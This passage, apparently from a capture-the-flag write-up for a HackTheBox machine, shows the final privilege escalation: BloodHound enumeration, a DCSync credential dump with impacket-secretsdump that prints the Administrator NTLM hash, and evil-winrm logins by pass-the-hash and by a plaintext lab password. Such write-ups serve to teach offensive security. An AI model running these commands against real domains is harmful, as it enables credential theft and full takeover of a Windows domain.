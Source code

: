 ## Final Privilege Escalation: DCSync Attack

```hlt:1
bloodhound-python -dc DC.PUPPY.HTB -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!' -d PUPPY.HTB -c All -o bloodhound_results_steph_cooper.json -ns xx.xx.xx.xx
```

```hlt:1,bb0edc15e49ceb4120c7bd7e6e65d75b
impacket-secretsdump PUPPY.HTB/steph.cooper_adm:'FivethChipOnItsWay2025!'@xx.xx.xx.xx

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::

```

führt mit dem Impacket-Tool **`secretsdump`** eine Abfrage auf dem Remote-Host `xx.xx.xx.xx` durch, um **geheime Informationen (Passworthashes, LSA Secrets, Kerberos Tickets etc.)** aus dem Windows-System zu extrahieren.

## Obtaining the Root Flag

```hlt:1
evil-winrm -i xx.xx.xx.xx -u 'administrator' -H bb0edc15e49ceb4120c7bd7e6e65d75b

```

```hlt:1
evil-winrm -i xx.xx.xx.xx -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
```
